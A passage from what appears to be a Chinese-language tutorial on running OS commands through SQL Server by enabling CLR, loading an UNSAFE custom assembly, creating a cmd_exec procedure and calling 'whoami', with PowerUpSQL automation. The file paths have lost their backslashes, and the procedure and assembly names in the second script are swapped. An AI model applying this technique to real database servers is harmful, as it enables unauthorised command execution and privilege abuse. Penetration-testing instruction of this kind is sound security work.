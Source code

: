 ```
    $stringBuilder.AppendLine(" ") | Out-Null
    # Build create procedure command
    $stringBuilder.AppendLine("CREATE PROCEDURE [dbo].[cmd_exec] @execCommand NVARCHAR (4000) AS EXTERNAL NAME [my_assembly].[StoredProcedures].[cmd_exec];") | Out-Null
    $stringBuilder.AppendLine("GO") | Out-Null
    $stringBuilder.AppendLine(" ") | Out-Null
    # Create run os command
    $stringBuilder.AppendLine("EXEC[dbo].[cmd_exec] 'whoami'") | Out-Null
    $stringBuilder.AppendLine("GO") | Out-Null
    $stringBuilder.AppendLine(" ") | Out-Null
    # Create file containing all commands
    $stringBuilder.ToString() -join "" | Out-File c:tempcmd_exec.txt
```

    
        

如果一切顺利“c:tempcmd\_exec.txt”文件应该包含以下SQL语句。在该示例中，十六进制字符串已被截断，但是你的长度应该更长

    -- Select the MSDB database
    USE msdb
    -- Enable clr on the server
    Sp_Configure 'clr enabled', 1
    RECONFIGURE
    GO
    -- Create assembly from ascii hex
    CREATE ASSEMBLY [my_assembly] AUTHORIZATION [dbo] FROM 
    0x4D5A90000300000004000000F[TRUNCATED]
    WITH PERMISSION_SET = UNSAFE 
    GO 
    -- Create procedures from the assembly method cmd_exec
    CREATE PROCEDURE [dbo].[my_assembly] @execCommand NVARCHAR (4000) AS EXTERNAL NAME [cmd_exec].[StoredProcedures].[cmd_exec]; 
    GO 
    -- Run an OS command as the SQL Server service account
    EXEC[dbo].[cmd_exec] 'whoami' 
    GO
    
        

当你用sysadmin权限在SqlServer中运行“c:tempcmd\_exec.txt”的sql语句时，输出应该如下所示：

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201012221145834.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
PowerUpSQL自动化

你可以在使用PowerUpSQL之前，访问此[链接了解PowerUpSQL](https://github.com/NetSPI/PowerUpSQL/wiki)

我做了一个PowerUpSQL函数来调用“Create-SQLFileCLRDll”创建类似的DLL和TSQL脚本。 它还支持设置自定义的程序集名称，类名称，方法名称和存储过程名称。 如果没有指定设置，那么它们都是随机的。 以下是一个基本的命令示例：

    PS C:temp> Create-SQLFileCLRDll -ProcedureName "runcmd" -OutFile runcmd -OutDir c:temp
    C# File: c:tempruncmd.csc
    CLR DLL: c:tempruncmd.dll
    SQL Cmd: c:tempruncmd.txt
    
        